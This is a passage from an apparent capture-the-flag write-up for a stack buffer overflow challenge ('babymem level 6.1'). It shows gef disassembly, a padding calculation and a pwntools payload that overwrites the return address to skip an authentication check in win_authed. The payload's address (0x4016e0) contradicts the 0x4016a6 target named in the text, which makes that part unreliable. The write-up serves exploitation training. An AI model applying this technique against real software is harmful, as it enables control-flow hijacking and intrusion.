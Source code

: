 * As we can see the return address is `main+238` and it is located at `0x7ffdf99af618`.
* We want to replace this value with the address in the `win_authed` function such that it skips the check.

```
gef➤  disass win_authed
Dump of assembler code for function win_authed:
   0x000000000040168a <+0>:     endbr64 
   0x000000000040168e <+4>:     push   rbp
   0x000000000040168f <+5>:     mov    rbp,rsp
   0x0000000000401692 <+8>:     sub    rsp,0x10
   0x0000000000401696 <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x0000000000401699 <+15>:    cmp    DWORD PTR [rbp-0x4],0x1337
   0x00000000004016a0 <+22>:    jne    0x401798 <win_authed+270>
   0x00000000004016a6 <+28>:    lea    rdi,[rip+0x95b]        # 0x402008
```

* As we can see the win function starts at `0x000000000040168a`. However the address we want to overwrite the return address with is `0x00000000004016a6`.
* We now have the information we need:
  * [x] Location of buffer: `0x7ffdf99af5b0`.
  * [x] Location of stored return address: `0x7ffdf99af618`.
  * [x] Address to jump to: `0x00000000004016a6`.
* Let's calculate the padding required.

```
gef➤  p/d 0x7ffdf99af618 - 0x7ffdf99af5b0
$3 = 104
```

* We can now create our payload.

```python
from pwn import *

padding = b'A' * 104
payload = padding + p64(0x00000000004016e0)

p = process('/challenge/babymem_level6.1')
p.recvuntil('size:')
p.sendline('500')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 7.0
